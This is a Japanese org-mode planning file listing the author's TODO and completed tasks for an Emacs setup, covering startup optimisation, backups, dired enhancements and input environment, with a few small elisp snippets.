**** TODO [#C] 同じ様な入力内容を学習する

     1) 結果
     2) 背景 (問題点)
	    関数などで同じ様な内容を入力することが多々あるので学習
        し auto-complete や yasnippet に反映し入力を楽にする。
	    しかし、同じような入力内容の時点でコードとしては冗長で
        あり、見直す必要があるかもしれない
     3) 対応方法
	    dmacro.el defferd.el などから参考
     4) 優先順位の根拠
	    かなり困難かと。
     5) 備考
     6) time/ref
        <2012-11-12 Mon> / cf. [[file:~/work/emacs23-23.1%2B1/lisp/winner.el][file:~/work/emacs23-23.1+1/lisp/winner.el]]

**** TODO [#C] backspace を入力しているタイミングを統計

     1) 結果
     2) 背景 (問題点)
	    backspace = 間違いの訂正なので無駄が発生しているところ。
	    無くすことで少しでも効率化したい。
     3) 対応方法
	    keylogger
     4) 優先順位の根拠
	    緊急性はない
     5) 備考
     6) time/ref
        <2012-11-12 Mon> / cf. [[file:~/mydoc/memo/memo.org::*memo][memo]]

**** TODO [#B] C-x C-e で eval-region

     1) 結果
     2) 背景 (問題点)
        M-x から呼ぶのが面倒
     3) 対応方法
        region があるかどうか判断して行う
     4) 優先順位の根拠
        導入は簡単かつ便利
     5) 備考
     6) time/ref
        <2012-11-16 Fri> / cf. [[file:~/.emacs.d/init/test_init.el::save%20excursion][file:~/.emacs.d/init/test_init.el::save excursion]
*** TODO [0/0] Emacs Architect
**** 1. Introduction
***** 1.1. Policy
****** 1.1.1. この文書について
******* TODO [#C] simple に記載する。
誰が見ても容易に理解できるように。

1) 結果

2) 背景 (問題点)
   時間が経過すると自分が書いた文書でも読むのが苦痛になっているケースがある。

3) 対応方法
   文書を何度も見直し、訂正。

4) 優先順位の根拠
   環境の構築の方が優先。
   完全な文章はない。
   開発途中で変更などがあるので文章の完成は最後になる。

5) 備考

6) time/ref

****** 1.1.2. Purpose
******* TODO [#C] 簡単にこの文章を参照、編集できるようにする。

1) 結果

2) 背景 (問題点)
   設定や拡張時の目的、基準を明確化。
   良質の物を構築する為に、意思決定の判断材料とする。
   基準が明確でないことは必要性の有無が曖昧になる。
   また、時間を浪費する。
   月日と共に、導入や削除を繰返すと煩雑なものになりがち。

3) 対応方法
   popup などで参照。

4) 優先順位の根拠
   開発優先、なくても find-file で開いてみることができる。

5) 備考

6) time/ref

******* TODO [#A] 設計の定期的見直し。

1) 結果

2) 背景 (問題点)
   定期的に見直さないと煩雑になりがち。
   また、忘れてしまう。

3) 対応方法
   一番暇な期間をみつけてスケジュールをたてる。

4) 優先順位の根拠
   より良い環境を構築するため。

5) 備考

6) time/ref

***** 1.2. Overview
****** 1.2.1. [0/11] System Environment
******* TODO [#A] Linux

1) 結果

2) 背景 (問題点)
   linux を Main に構築
3) 対応方法
   linux を軸に構築
4) 優先順位の根拠
   linux を軸に構築
5) 備考

6) time/ref

******* TODO [#B] Windows

1) 結果

2) 背景 (問題点)
   Sub に windows で構築

3) 対応方法
   GNU Emacs から binary を取得

4) 優先順位の根拠
   一番普及しているので他の環境で使うことが多いと予測される。

5) 備考

6) time/ref

******* TODO [#C] Mac

1) 結果

2) 背景 (問題点)
   つかう機会があるかもしれないので念のため構築しておく。

3) 対応方法
   まず、 Mac の環境を取得する必要がある。

4) 優先順位の根拠
   使う機会は稀。

5) 備考

6) time/ref

******* TODO [#A] Desktop

1) 結果

2) 背景 (問題点)
   Main に使う

3) 対応方法

4) 優先順位の根拠

5) 備考

6) time/ref

******* TODO [#B] Laptop

1) 結果

2) 背景 (問題点)
   プレゼンなどで使う機会がある。

3) 対応方法
   laptop かどうか elisp から確認。

4) 優先順位の根拠
   違う環境で使う機会があるとすれば Laptop である。

5) 備考

******* TODO [#B] Multi Display

1) 結果

2) 背景 (問題点)
   Multi display で最大限つかえるようにする。
   Display をわたって表示すると window の区切り目が display と合
   わない場合や minibuffer が左端に表示されてしまう。

3) 対応方法
   Frame を別々に用意する。
   一方を debug や echo 領域にする。

4) 優先順位の根拠
   作業効率をあげる為に必要。

5) 備考

******* TODO [#A] Version 23

1) 結果

2) 背景 (問題点)
   Main に使う version

3) 対応方法

4) 優先順位の根拠

5) 備考

******* TODO [#B] Version 24

1) 結果

2) 背景 (問題点)
   のちに Version up することになるので設定しておく
   org-capture の機能を使えるようになる。
   また Build してシステムに組込む。

3) 対応方法
   Build

4) 優先順位の根拠
   のちに Version up することになるので設定しておく

5) 備考

******* TODO [#C] Version 22

1) 結果

2) 背景 (問題点)
   まれに version 22 の環境で使っているところがあるので構築し
   ておく

3) 対応方法
   Version 22 を使っているディストリをしらべる。

4) 優先順位の根拠
   まれに version 22 の環境で使っているところがあるので構築し
   ておく
5) 備考

******* TODO [#A] GUI

1) 結果

2) 背景 (問題点)
   Main で使う Terminal

3) 対応方法

4) 優先順位の根拠

5) 備考

******* TODO [#B] CUI, putty

1) 結果

2) 背景 (問題点)
   遠隔地で使う場合 CUI で使うことになる場合が多い
   色などがしっかり表示されない問題を解決する。

3) 対応方法
   http://www.emacswiki.org/emacs/PuTTY

4) 優先順位の根拠
   CUI で使えるようになると軽量な環境で使えることになる。

5) 備考

****** 1.2.2. [1/1] Construction Directory
******* DONE [#A] Directory & File move
        CLOSED: [2012-11-27 Tue 16:13]

1) 結果
   revision 99 から

2) 背景 (問題点)
   既存の directory file 構造を変更する。

3) 対応方法
   svn move
   file 名の変更
   [[#Construction%20Directory][Construction Directory]] 参照
   subversion の管理しない directory file を設定。 var_e/ backup_e/

4) 優先順位の根拠
   まず、これからとりかかる。

5) 備考

****** 1.2.3. Data list and 格納方法
****** 1.2.4. Network
****** 1.2.5. [0/1] Alias Command
******* TODO [#C] Alias Command

1) 結果

2) 背景 (問題点)
   anything などで command が見つけにくいので探しやすくする。

3) 対応方法
   apropos などでおもいだしにくい command をさがす

4) 優先順位の根拠
   あると便利

5) 備考

**** 2. Startup & Exit Emacs
***** 2.1. [11/18] Startup
****** POSTPONES [#C] 起動、終了時刻を file に記録。

1) 結果
   多重起動した場合の string をいれる。

2) 背景 (問題点)
   emacs の使用履歴や crash 履歴として保存する。

3) 対応方法
   Emacs_%Y_%m.log
   [[#Emacs.log][start exit log]]
   after-init-hook
   kill-emacs-hook
   で対応。

4) 優先順位の根拠
   緊急性はない。

5) 備考

****** POSTPONES [#B] init.el total time

1) 結果


2) 背景 (問題点)
   起動時間の Total time を測る。

3) 対応方法
   deamon が起動している場合などを考慮。
   基本的には before-init-time から計算。
   --debug-init 時には before-init-time から起動時間と init.el
   が呼ばれてからの起動時間を測定。

4) 優先順位の根拠
   起動時間を短縮する為の目安となり必要

5) 備考

****** POSTPONES [#A] 3 秒以内に起動する。

1) 結果
   standard library の起動時間を削減しなくてはならない。

2) 背景 (問題点)
   起動が遲いと debug などで何度も起動する場合に時間がとられる。
   vi や nano の代わりに設定 file を編集するのに使いたい。

3) 対応方法
   byte-compile の見直し。最適化。
   eval-when-compile
   add-hook

4) 優先順位の根拠
   時間削減効果が大きい。

5) 備考

****** TODO [#C] Multi process load

1) 結果

2) 背景 (問題点)
   起動の高速化を試みる

3) 対応方法
   deffered.el

4) 優先順位の根拠
   かなり高速化が見込めるが難しいかも

5) 備考

****** TODO [#C] Source の方が新しかったら byte-compile するかどうか問合せる。

1) 結果

2) 背景 (問題点)
   起動時間に影響
   起動したあとに byte-compile するのを忘れてしまうので問合せ
   る。

3) 対応方法
   load の sorce などを読んで検討。

4) 優先順位の根拠
   load の source などを読まなければならないのでやや面倒。

5) 備考

****** TODO [#C] 画面の 9 割を frame で埋める。

1) 結果

2) 背景 (問題点)
   emacs を起動すると大画面で使用するケースがほとんどなので
   起動時に大画面にする。

3) 対応方法
   display のサイズを取得し計算。

4) 優先順位の根拠
   緊急性なし

5) 備考
init-file-debug


(x-display-pixel-width)
1680
(x-display-pixel-height)
1050

(display-pixel-width)
1680
(display-pixel-height)
1050

(or left-fringe-width (nth 0 (window-fringes)) 0)
8
(or right-fringe-width (nth 1 (window-fringes)) 0)
8

(or (frame-parameter nil 'scroll-bar-width) 0)
0
(- 100 1 1 1 1)
96


(let ((scroll-bar (or (frame-parameter nil 'scroll-bar-width) 0))
      (left-fringe (or left-fringe-width (nth 0 (window-fringes)) 0))
      (right-fringe (or right-fringe-width (nth 1 (window-fringes)) 0)))
  (/ (- (display-pixel-width) scroll-bar left-fringe right-fringe)
  (frame-char-width)
  ))
208

1664


(frame-char-width)
8





(set-frame-size (selected-frame) 208 40)
nil

nil

****** TODO [#C] dumping を検討

1) 結果

2) 背景 (問題点)
   最速起動が見込める。

3) 対応方法
   http://www.emacswiki.org/emacs/DumpingEmacs

4) 優先順位の根拠
   不具合ありと報告。

5) 備考
****** DONE [#B] init.el Header 作成 update
       CLOSED: [2012-12-09 Sun 20:18]

1) 結果
   directory tree は shell command から copy する。

2) 背景 (問題点)
   init.el の changelog と directory を自動で update し
   全体の構成の見通しをとれるようにする。

3) 対応方法
   header2.el

4) 優先順位の根拠
   header の作成 update は他の elisp でも使う。

5) 備考

****** DONE [#B] 起動時の分割表示。
       CLOSED: [2012-12-08 Sat 00:10]

1) 結果
   startup-display

2) 背景 (問題点)
   起動時に*Messages* *scratch*があると異変に気附きやすい

3) 対応方法
   *Messages* *scratch* を分割表示
   error があれば Error buffer を表示
   auto-save-file があればその一覧の表示と file を開く。
   終了時、 crash 時に開いていた buffer の link 付き一覧を表示。

4) 優先順位の根拠
   起動後の動作が早くなる。

5) 備考

****** DONE [#B] 遅延 load
       CLOSED: [2012-12-07 Fri 18:38]

1) 結果
   after-require

2) 背景 (問題点)
   elisp/ 以下の autoload されている file を 遅延 load する。
   idle-time を利用して command で load される時にもたつくの防
   ぐ。
   使って以内時間を有効活用する。

3) 対応方法
   idle-time
   idle-require の source から参考にする。
   subroutines に入れる。
   40 秒操作がなければ load を始初める。
   1 秒間隔で load
   さらに操作がなければ間隔を縮めて load する。
   遅延 load で設定した lisp をまとめて load 。
   トイレなどに席をたつ時に使う。

4) 優先順位の根拠
   緊急性はないがかなりやくにたつ

5) 備考

****** DONE [#B] init.el load される file を 1 つに結合する。
       CLOSED: [2012-11-29 Thu 08:11]

1) 結果
   join-one-start.el
   command: joinone-start-files

2) 背景 (問題点)
   全体の見通しをよくし、検索しやすくなる。
   全体の行数とサイズがわかる。

3) 対応方法
   elisp
   shell script
   file 名: all_in_one_start.el
   保存先: var_e/

4) 優先順位の根拠
   あると設定の見直しが簡易になる。

5) 備考

****** DONE [#C] まず subroutines を load する
       CLOSED: [2012-11-28 Wed 06:32]

1) 結果
   subroutines_start

2) 背景 (問題点)
   directory にいれてまず subroutines を load する。

3) 対応方法
   file path を指定して load する。

4) 優先順位の根拠
   簡易

5) 備考

****** DONE [#A] Path の設定
       CLOSED: [2012-11-28 Wed 06:32]

1) 結果
;; exec-path
(dolist (path (split-string (getenv "PATH") ":"))
  (add-to-list 'exec-path path t))

;; info-path
  (add-to-list 'Info-additional-directory-list (concat my-emacs-dir "data_e/ref/info"))

2) 背景 (問題点)
   起動時に load-path shell の path の設定を確実なものにする。

3) 対応方法
   load-path は~/.emacs.d/elisp/ 以下すべて追加
   exec path
   info path http://www.emacswiki.org/emacs/InfoPath
   getenv

4) 優先順位の根拠
   簡易、かつ重要

5) 備考

****** DONE [#C] Directory の確認、作成
       CLOSED: [2012-11-28 Wed 06:37]

1) 結果
;;;; make directory if not exist.
(mapc (lambda (dir)
		(if (and dir (not (file-exists-p dir)))
			(condition-case nil
				(make-directory dir 'parents)
			  (file-error (message "IO error in: %s" dir))))) `(,my-elisp-dir
                                                                ,my-start-dir
                                                                ,my-plugin-dir
                                                                ,my-mylisp-dir
                                                                ,my-data-dir
																,my-var-dir
                                                                ,my-backup-dir))


2) 背景 (問題点)
   directory がないと backup file などを置くことができない

3) 対応方法
   起動時に directory を確認し作成

4) 優先順位の根拠
   簡易
   なくても動くことには動く

5) 備考

****** DONE [#A] autoload list 作成コマンド
       CLOSED: [2012-11-28 Wed 06:47]

1) 結果
   subroutines_start

2) 背景 (問題点)
   autoload コマンドを一纏めにする。

3) 対応方法
   起動時に autoload list の file がなければ作成し起動。
   elisp/ 以下の autoload を取得。
   byte-compile し読込を高速化。

4) 優先順位の根拠
   起動に関るコマンドで重要

5) 備考

****** DONE [#A] Directory 内の prefix の付いた file を順番に load する。
       CLOSED: [2012-11-27 Tue 18:00]

1) 結果
   revision 99

2) 背景 (問題点)
   設定 file を管理しやすいように directory にまとめて順番に load

3) 対応方法
   subroutines に入れる。
   00 ~ 99 まで順番に読み込む。
   system に適合した file を読み込む。
   windows, linux, mac, emacs22, emacs23, emacs24
   prefix が付いていない file は主に autoload 用。
   若しくは、 test 用。
   Error があれば error のあった file を buffer に表示。
   --debug-init 時には bench-mark をとる。
   さらに、 buffer に表示。 sort しやすいようにする。
   http://www.emacswiki.org/emacs/LoadingLispFiles
   http://www.cb1.com/~john/computing/emacs/lisp/basics/load-directory.el
   init_loader.el

4) 優先順位の根拠
   起動に関るコマンドで重要

5) 備考

****** DONE [#B] default.el の扱い
       CLOSED: [2012-11-29 Thu 14:33]

1) 結果
   predefine の uniq
   09_check_default_start.el
   y = 読み込む
   n = 読み込まない
   Y = 次回から prompt を表示せずに読み込む。 file システム名を取得しシステムごとに設定。
   N = 次回から prompt を表示せずに読み込まない。 file システム名を取得しシステムごとに設定。

2) 背景 (問題点)
   system ごとの設定がされており読み込むと反映される。
   しかし、読み込みたくない場合それぞれ設定しなければならな
   い。

3) 対応方法
   default.el があれば prompt を表示。
   y = 読み込む
   n = 読み込まない
   Y = 次回から prompt を表示せずに読み込む。 file システム名を取得しシステムごとに設定。
   ! = 次回から prompt を表示せずに読み込まない。 file システム名を取得しシステムごとに設定。

4) 優先順位の根拠
   他の環境で使う時に必要。
   緊急性はない。

5) 備考

****** DONE [#B] 独自の起動オプションを設定
       CLOSED: [2012-11-28 Wed 09:48]

1) 結果
(add-to-list 'command-switch-alist
             '("--profile" . (lambda (&rest ignore)
                             (setq start-loader-profile-flag t))))
だと起動後に関数が実行され、 init.el 内で処理できない。

2) 背景 (問題点)
   独自の起動オプションで設定を分岐
   設定 file を編集する時などに最小構成として起動できるように
   する。

3) 対応方法
   lisp/ source を読む

4) 優先順位の根拠
   設定に幅ができる。
   command-line-args

5) 備考

***** 2.2. Exit
****** DONE [#C] process 終了, file 保存の確認をしない
       CLOSED: [2012-12-09 Sun 20:26]

1) 結果
   C-x C-c kill-emacs

2) 背景 (問題点)
   終了時に process の終了確認と file の保存確認がされるので
   確認しない。

3) 対応方法
   confirm-kill-emacs

4) 優先順位の根拠
   起動時に auto-save の自動 open 機能の導入がされてから設定す
   る。

5) 備考

****** TODO [#C] byte-compile の必要があれば compile する

1) 結果

2) 背景 (問題点)
   byte-compile しわすれを防ぐ

3) 対応方法
   kill-emacs-hook

4) 優先順位の根拠
   終了が遅くなる可能性が高い

5) 備考

****** TODO [#C] loaddef の確認と update

1) 結果

2) 背景 (問題点)
   loaddef に新しく入れた elisp の autoload が反映されていないケー
   スをさける

3) 対応方法
   kill-emacs-hook
   loaddef が無いか、若しくは elisp/ 以下の file よりも古
   ければ、 Prompt を表示し loaddef を update 。

4) 優先順位の根拠
   終了が遅くなる可能性大

5) 備考

****** TODO [#C] Check Next Safty Run

1) 結果

2) 背景 (問題点)
   次回の起動が無事に行われるか確認。

3) 対応方法
   :: emacs を起動したままもう 1 つ emacs を開き
   無事に起動できなければ、そのまま終了してもいいかどうか
   prompt を出す。

4) 優先順位の根拠
   終了がかなり遅くなる可能性大。

5) 備考

**** 3. Environment
***** [0/4] 日本語
****** TODO [#A] 日本語入力環境をととのえる

1) 結果

2) 背景 (問題点)
   効率的な日本語入力環境を整る。

3) 対応方法
   ATOK
   mozc
   canna

4) 優先順位の根拠
   変換効率が惡いと文章作成時に誤字、脱字の原因となる。
   非常に重要。

5) 備考

****** TODO [#C] 文字コード

1) 結果

2) 背景 (問題点)
   文字コードの設定を簡易にしたい。

3) 対応方法
   http://www.edu.cc.uec.ac.jp/ee/ip/tools/japanese/emacs-coding.html

4) 優先順位の根拠
   緊急性はない。

5) 備考

****** TODO [#C] 英単語 補完 翻訳

1) 結果

2) 背景 (問題点)
   英語の補完 翻訳をシームレスにしたい

3) 対応方法
   ispell など拡張で設定

4) 優先順位の根拠
   緊急性はない。

5) 備考

***** [0/1] Encoding
****** TODO [#B] Encodeing

1) 結果

2) 背景 (問題点)
   簡易に Encode を変更
   文字化け対策

3) 対応方法
   http://www.emacswiki.org/emacs/AutoCodingAlist

4) 優先順位の根拠
   文字化けに困ることがある。

5) 備考

**** 4. Files
***** 3.1. [2/11] Open
****** TODO [#C] anything, dired に binary file の表示を toggle

1) 結果

2) 背景 (問題点)
   binary file が表示されて見辛いので表示をしない

3) 対応方法
   anything の設定
   dired の設定を探す

4) 優先順位の根拠
   緊急性なし。
   場合によっては導入に時間がかかりそう。
   かかる時間の割に効果がない。

5) 備考

****** TODO [#C] 拡張子ごとに色分け

1) 結果

2) 背景 (問題点)
   file の視認性があがる。

3) 対応方法
   各 list に設定

4) 優先順位の根拠
   緊急性なし

5) 備考

****** TODO [#C] 対象から外れた箇所は見えにくくする。

1) 結果

2) 背景 (問題点)
   視認性を上げる。

3) 対応方法
   bookshelf

4) 優先順位の根拠
   緊急性はない。

5) 備考

****** TODO [#A] すべての file の DB を作成しそこから開く


1) 結果

2) 背景 (問題点)
   file を探すのに事前に list を作成しておけば時間を短縮するこ
   とができる。
   時間と場所のトレードオフを実現。

3) 対応方法
   起動時に DB があるか確認し、存在しなければ idle-time に DB 作成コマンド
   を登録。
   更新の間隔は 24 時間。
   midnight に登録し自動で作成。
   windows では everything の DB を利用。
   保存先: var_e/
   http://www.emacswiki.org/emacs/LocateFilesAnywhere
   http://dev.ariel-networks.com/articles/emacs/part1/
   http://dev.ariel-networks.com/articles/emacs/part2/
   http://dev.ariel-networks.com/Members/sugawara/stuff/sd_emacs/200906_note/
   http://d.hatena.ne.jp/rubikitch/20090211/1234349678


4) 優先順位の根拠
   file を高速に見付けて開くのにかなり貢献できる可能性大。

5) 備考

****** POSTPONES [#A] filecache

1) 結果
   事前ではないが該当の cache を作成

2) 背景 (問題点)
   事前によく開く file の cache を作成しておく。

3) 対応方法
   起動時に idle-time に cache 作成コマンドを登録。
   + cache 対象
       * elisp/
       * plugin/
       * mylisp/
       * start.d/
       * data_e/code/
       * data_e/snippet/
   + 保存先: var_e/


4) 優先順位の根拠
   file を高速で見付けて開くのに貢献

5) 備考

****** TODO [#C] Bookmark list から開く。

1) 結果

2) 背景 (問題点)
   init.el や memo などよく開く file を bookmark から開くことが
   できる。

3) 対応方法
   http://www.emacswiki.org/emacs/CategoryBookmarking
   http://emacswiki.org/emacs/BookMarks
   保存先: data_e/

4) 優先順位の根拠
   bookmark しなければならないので手間。
   あまり使わないで file を見付ける方法を考えたい。

5) 備考

****** TODO [#C] find command から開く

1) 結果

2) 背景 (問題点)
   find command で file を探して list up する。

3) 対応方法
   find command を利用
   exclude するものを決める binary

4) 優先順位の根拠
   速度が遲いので最後の手段として使う。

5) 備考

****** TODO [#B] まとめて開く

1) 結果

2) 背景 (問題点)
   list で mark した file をまとめて開たい。

3) 対応方法
   anything などしらべる。

4) 優先順位の根拠
   なくても困らないがあると便利。

5) 備考

****** TODO [#C] remote file list から開く

1) 結果

2) 背景 (問題点)
   remote machine の file を開く

3) 対応方法
   angeftp, tramp

4) 優先順位の根拠
   なくても sshfs などで対応できるがあるとすごく便利。
   導入に時間が係りそう。

5) 備考

****** DONE [#B] current directory の file list から開く。
       CLOSED: [2012-11-29 Thu 21:29]

1) 結果
   anything
2) 背景 (問題点)
   project などで current directory から見付けると便利。

3) 対応方法
   特になし

4) 優先順位の根拠
   あれば便利かつ導入が簡易

5) 備考

****** DONE [#A] 履歴から file を開く
       CLOSED: [2012-11-29 Thu 21:28]

1) 結果
   recentf

2) 背景 (問題点)
   履歴から file を開く

3) 対応方法
   履歴リストの clean up はしない。
   履歴リストの保存するタイミングを考える。
   - http://www.emacswiki.org/emacs/RecentFiles
   - [[#find-file-history][Find File History]]


4) 優先順位の根拠
   高速に file を見付けて開くことができる。

5) 備考

***** 3.2. Save
****** 3.2.1. [2/2] Command
******* DONE [#C] すべての file buffer を保存する。
        CLOSED: [2012-11-29 Thu 21:32]

1) 結果
   save-some-buffers

2) 背景 (問題点)
   file buffer の save し忘れがあるので

3) 対応方法
   確かコマンドがあったはず

4) 優先順位の根拠
   あると便利

5) 備考

******* DONE [#B] rename 前の file を削除するかどうか prompt
        CLOSED: [2012-11-29 Thu 23:21]

1) 結果
   simple.el
   write-file-old-del

2) 背景 (問題点)
   file buffer を rename した後、わざわざ shell や dired を開いて
   file を削除しなければならなくて面倒。

3) 対応方法
   rename コマンドを作成する。

4) 優先順位の根拠
   地味に便利

5) 備考

****** 3.2.4. [6/9] Backup
******* DONE [#A] Auto-save
        CLOSED: [2012-12-02 Sun 08:56]

1) 結果
   起動時に auto-save されている file を自動的に開く
   起動時と終了時に古くて残された auto-save file を削除する。


2) 背景 (問題点)
   主に crash 対策

3) 対応方法
   auto-save の間隔を短くする。

4) 優先順位の根拠
   編集した内容を失わない為にも非常に重要

5) 備考

******* DONE [#A] Local Version Control 概要
        CLOSED: [2012-12-02 Sun 08:30]

1) 結果
   初編集直前で old backup (first-change-hook)
   backup directory の old directory に格納 revision 5 まで
   各セーブごとに、 new file として backup revision 10 まで
   backup は copy で行う (backup-by-copying)


2) 背景 (問題点)
   ソフト要因の障害に備える

3) 対応方法
   編集前に backup 初編集時に old backup が high-water なら rotate
   kept-old-version を 0 にし kept-new-version を 10 にする。
   初編集は、 old file として backup "test.el.~1~old"
   以後は、各セーブごとに、 new file として backup
   save した回数で挙動を変える。 [保留]
   (setq buffer-backed-up nil) と C-u C-u C-s を使う。
   old revision new revision と共に十分に容量をとる。
   多めに revision をとる。
   保存先: backup_e/

4) 優先順位の根拠
   編集した内容を失わない為に非常に重要

5) 備考

******* TODO [#B] Local Version Control mode-line

1) 結果

2) 背景 (問題点)
   local version control の状態を mode-line に表示

3) 対応方法
   info 32.1.2 Version Control and the Mode Line

4) 優先順位の根拠
   緊急性はない。あるとかなり便利。

5) 備考

******* TODO [#B] Local Version Control の 一覧

1) 結果

2) 背景 (問題点)
   version control された file を見易く表示

3) 対応方法
   link 付き、 buffer 上で diff や revert コマンドできるように
   する。

4) 優先順位の根拠
   便利になるとおもわれる。

5) 備考

******* TODO [#B] Local Version Control の比較

1) 結果

2) 背景 (問題点)
   現在の buffer と Local Version Control された file と比較。

3) 対応方法
   ediff

4) 優先順位の根拠
   ediff を学習しなければならない

5) 備考

******* DONE [#A] Local Version Control 最後に version control された file にもどる。
        CLOSED: [2012-12-06 Thu 03:35]

1) 結果
   recover-version
   version number を minibuffer で入力。

2) 背景 (問題点)
   簡易に以前の状態に戻る。

3) 対応方法
   command を探す。若しくは、作成。

4) 優先順位の根拠
   導入されれば使用頻度はたかくなると思われる。

5) 備考

******* DONE [#A] auto-save file 一覧
        CLOSED: [2012-12-02 Sun 08:58]

1) 結果
   auto-recover.el

2) 背景 (問題点)
   auto-save している file の一覧を表示。
   起動時にも表示したい。

3) 対応方法
   auto-save している file の一覧を表示。
   link 付き
   http://www.emacswiki.org/emacs/RevertBuffer

4) 優先順位の根拠
   編集した内容を失わない為にも非常に重要

5) 備考

******* DONE [#C] auto-save file すべて破棄
        CLOSED: [2012-12-02 Sun 08:59]

1) 結果
   auto-recover.el
   cleanup-autosave

2) 背景 (問題点)
   junk file などの auto-save file が残っている場合があるので
   すべて破棄する。

3) 対応方法
   関数を書く

4) 優先順位の根拠
   起動時に auto-save file を自動的に開く機能が導入されてから

5) 備考

******* DONE [#C] auto-save file すべて tmp directory に移動
        CLOSED: [2012-12-02 Sun 09:00]

1) 結果

2) 背景 (問題点)
   junk file などの auto-save file が残っている場合があるので
   すべて移動する。

3) 対応方法
   関数を書く

4) 優先順位の根拠
   起動時に auto-save file を自動的に開く機能が導入されてから

5) 備考

****** 3.2.5. Crypt File
******* TODO [#C] Crypt File

1) 結果

2) 背景 (問題点)
   盗難、漏洩対策としての機能をもっておく

3) 対応方法
   - key ageant を利用
   - http://www.emacswiki.org/emacs/AutoEncryption
     http://www.emacswiki.org/emacs/CategoryCryptography


4) 優先順位の根拠
   今の所、差し迫った needs はない

5) 備考

***** 3.3. File Handling
****** Dired
******* TODO [#B] dired buffer のみ tab 化

1) 結果

2) 背景 (問題点)
   dired buffer が散らばるので一つにまとめて置く。

3) 対応方法
   http://d.hatena.ne.jp/tequilasunset/20101129/p1

4) 優先順位の根拠
   利便性は高い

5) 備考

******* TODO [#C] dired color

1) 結果

2) 背景 (問題点)
   dired の file の色を分類

3) 対応方法
   zsh の設定に準拠
   path の LSCOLOR, LS_COLOR から読み取る
   http://www.emacswiki.org/emacs/Diredful

4) 優先順位の根拠
   視認性があがるが導入がやや面倒そう。

5) 備考
   alt + f2 launcher で emacs を起動すると path が export され
   ていない

******* TODO [#C] dired からコマンドを実行する

1) 結果

2) 背景 (問題点)
   開いている dired からコマンドを実行できると便利

3) 対応方法
   http://www.emacswiki.org/emacs/DiredLaunch

4) 優先順位の根拠
   緊急性はない。なくても shell から実行できるので問題はない

5) 備考

******* TODO [#B] dired の mode-line

1) 結果

2) 背景 (問題点)
   directory の full path を表示
   line column は必要ないので非表示
   file & directory の総数の表示
   file の数を表示
   directory の数を表示

3) 対応方法
   mode-line 編集 mode-hook

4) 優先順位の根拠
   視認性があがりやや便利。

5) 備考

******* TODO [#B] dired auto refresh

1) 結果

2) 背景 (問題点)
   新しくファイルを追加、更新、 rename した場合に dired の list
   が更新されないので更新する
3) 対応方法
   find-file-after-hook
   idle-time

4) 優先順位の根拠
   まれに途方にくれてしまうので

5) 備考

******* TODO [#B] dired で File の情報を toggle で表示させる

1) 結果

2) 背景 (問題点)
   dired で file のあらゆる情報を取得

3) 対応方法
   - File Size
   - File Permission
   - Time Stamp
     + Modification time
     + Access time
     + Change Status time
   - Disk space
   - Current Directory Total Size
   - Select Directory Total Size
   - Count Current Directory File
   - Count Select Directory File
   - Owner & Group

4) 優先順位の根拠
   有用だが導入に時間を要する可能性がたかい。

5) 備考

******* TODO [#C] dired を sort

1) 結果

2) 背景 (問題点)
   dired を項目べつに sort

3) 対応方法
   - 名前
   - Size
   - 日時
   - 種類
   - directory first
   - file first

4) 優先順位の根拠
   視認性があがる。緊急性はない。

5) 備考

******* TODO [#A] wdired であらゆるものを変更

1) 結果

2) 背景 (問題点)
   wdired で表示されている情報を変更したい。

3) 対応方法
   wdired ですでに機能があるか確認。
   - rename
   - permission
   - time stamp
   - owner & group
   - attribute

4) 優先順位の根拠
   かなり有用

5) 備考

******* TODO [#C] dired で file の文字コードを変換

1) 結果

2) 背景 (問題点)
   dired から文字コードを変換すると楽

3) 対応方法
   http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=dired%20convert%20code

4) 優先順位の根拠
   あると便利。

5) 備考

******* TODO [#C] dired で file の format を変換

1) 結果

2) 背景 (問題点)
   excel, word powerpoint などあらゆるものに変換したい。

3) 対応方法
   http://www.emacswiki.org/emacs/FileFormat
   word to text http://www.emacswiki.org/emacs/UnDoc
   pdf to text http://www.emacswiki.org/emacs/UnPdf
   xls to text http://www.emacswiki.org/emacs/UnXls

4) 優先順位の根拠
   あると便利。緊急性はない。

5) 備考

******* TODO [#C] dired で切取り貼り付けで file を移動

1) 結果

2) 背景 (問題点)
   x-finder のように file の移動を簡易化したい

3) 対応方法
   wdired を利用して考える

4) 優先順位の根拠
   困難が予想される。しかし有用であることは間違いない。

5) 備考

******* TODO [#C] dired から印刷

1) 結果

2) 背景 (問題点)
   dired から file を印刷

3) 対応方法
   http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=dired%20print

4) 優先順位の根拠
   dired でなくても印刷はできる。
   あると便利。

5) 備考

******* TODO [#C] dired から関連付けられたソフトで開く

1) 結果

2) 背景 (問題点)
   表題のまま

3) 対応方法
   http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=dired%20fiber

4) 優先順位の根拠
   dired でなくてもできる
   あると便利

5) 備考

******* TODO [#B] dired で mark した file を 1 つに結合する

1) 結果

2) 背景 (問題点)
   mark した text file を 1 つに結合する。
   分割された file を簡単に 1 つに結合したい

3) 対応方法
   elisp で関数を書く。

4) 優先順位の根拠
   有用であることが望める

5) 備考

****** DONE [#A] 削除はすべて system trash へ
       CLOSED: [2012-12-02 Sun 10:40]

1) 結果
   emacs 23 以上
   delete-by-moving-to-trash
   emacs 23 以下
   trash-settings.el

2) 背景 (問題点)
   file が削除された場合、復元が困難

3) 対応方法
   http://www.emacswiki.org/emacs/SystemTrash

4) 優先順位の根拠
   容易に導入できる。
   file の損失防止の為重要。

5) 備考

****** TODO [#C] archive の操作

1) 結果

2) 背景 (問題点)
   archive の内容表示、展開、圧縮を簡単に操作する。

3) 対応方法
   http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=dired-do-tar

4) 優先順位の根拠
   あると便利。緊急性はなし。

5) 備考

****** TODO [#C] file の tag 付け

1) 結果

2) 背景 (問題点)
   file の管理を簡単にする。

3) 対応方法
   http://www.emacswiki.org/emacs/BuffernameTags

4) 優先順位の根拠
   tag 付をして得られるメリットをまず調べる必要がある。

5) 備考

**** 5. Buffer
***** 4.1. Handling
****** TODO [#A] Switch buffer

1) 結果
   iswitchb まで完了。
   minibuffer を出てから anything を起動できない。

2) 背景 (問題点)
   buffer を効率よく状況に併せて switch したい

3) 対応方法
   switch コマンドを速度、曖昧、正確で統合
   C-: と 特定の Key Command に Switch/Find-file を定義。
   C-: C-: で曖昧 switch iswitchb で切替。
   C-: C-: C-: で anything で切替。

4) 優先順位の根拠
   必ず使う機能なのでここを効率化すれば全体的な速度もあがる。
